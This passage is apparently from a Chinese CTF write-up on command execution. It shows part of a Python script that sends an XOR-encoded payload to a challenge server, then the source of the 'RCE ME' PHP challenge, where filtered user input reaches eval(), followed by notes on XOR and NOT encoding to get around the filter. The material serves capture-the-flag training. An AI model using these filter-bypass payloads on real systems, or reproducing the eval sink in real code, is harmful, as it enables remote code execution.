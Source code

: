 ```python
data1="(\""+str1+"\"|\""+str2+"\")"

str1 = ''
str2 = ''
for k in range(0,len(args)):
    fun(k,args)
data2="(\""+str1+"\"|\""+str2+"\")"

data = {"c":data1+data2}
result = requests.post(url=url,data=data)
print(result.text)
```

成功获取到flag

![image-20211126163818363](image/命令执行/image-20211126163818363.png)



### [极客大挑战 2019]RCE ME

题目源码：

```php
<?php
error_reporting(0);
if(isset($_GET['code'])){
            $code=$_GET['code'];
                    if(strlen($code)>40){
                                        die("This is too Long.");
                                                }
                    if(preg_match("/[A-Za-z0-9]+/",$code)){
                                        die("NO.");
                                                }
                    @eval($code);
}
else{
            highlight_file(__FILE__);
}

// ?>
```

分析代码，Get方式接收code参数传来的值，首先判断值不能超过40位，然后用正则过滤了大小写字母和数字，最后传到eval函数执行

遇到这种题目，可以考虑异或或者取反绕过。
